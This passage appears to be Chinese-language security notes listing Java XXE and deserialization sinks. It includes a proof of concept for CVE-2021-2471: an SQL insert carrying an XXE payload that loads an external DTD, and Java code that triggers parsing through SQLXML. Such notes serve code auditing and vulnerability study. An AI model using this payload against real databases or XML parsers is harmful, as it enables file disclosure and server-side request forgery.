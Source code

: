 ```java
```
- DocumentHelper
```java
DocumentHelper.parseText(xmlString);
```

- XPathExpression(?)
```java
//网上的利用代码，实际上evaluate的参数是Node类型，代码都跑不通，不知道是不是跟java版本有关
XPathFactory xPathFactory = XPathFactory.newInstance();
XPath xpath = xPathFactory.newXPath();
XPathExpression xPathExpr = xpath.compile("/somepath/text()");
xPathExpr.evaluate(new InputSource(is));

//以下是OWASP的代码，但是DocumentBuilder的parse已经触发XXE了，Xpath不知道来干啥的？。。。。
DocumentBuilderFactory df = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = df.newDocumentBuilder();
String result = xPathExpr.evaluate(builder.parse(new ByteArrayInputStream(xmlString.getBytes())) );
```

- SQLXML
```java
import javax.xml.transform.dom.DOMSource;
import java.sql.*;

/**
 * CVE-2021-2471
 * https://nvd.nist.gov/vuln/detail/CVE-2021-2471
 *
 * create table tb_test (id bigint(20) unsigned NOT NULL AUTO_INCREMENT COMMENT '主键id',message text COMMENT 'SQLXML',PRIMARY KEY (`id`));
 *
 * insert into tb_test(message) value('<?xml version="1.0" ?> <!DOCTYPE note [ <!ENTITY % remote SYSTEM "http://127.0.0.1:80/xxe.dtd"> %remote; ]>');
 */
public class OracleJDBC {

    public static void main(String[] args) throws SQLException {
        Connection connection = MySQLConnectorJFactory.getConnection();
        if (connection != null) {
            Statement statement = connection.createStatement();
            statement.execute("select * from tb_test");
            ResultSet resultSet = statement.getResultSet();
            while (resultSet.next()) {
                SQLXML sqlxml = resultSet.getSQLXML("message");
                sqlxml.getSource(DOMSource.class);
            }
        }
    }
}
```
### Deserialization
- readObject
- readUnshared
- Yaml.load
- XStream.fromXML
- XMLDecoder.readObject
- ObjectMapper.readValue
- JSON.parseObject
- DriverManager.getConnection
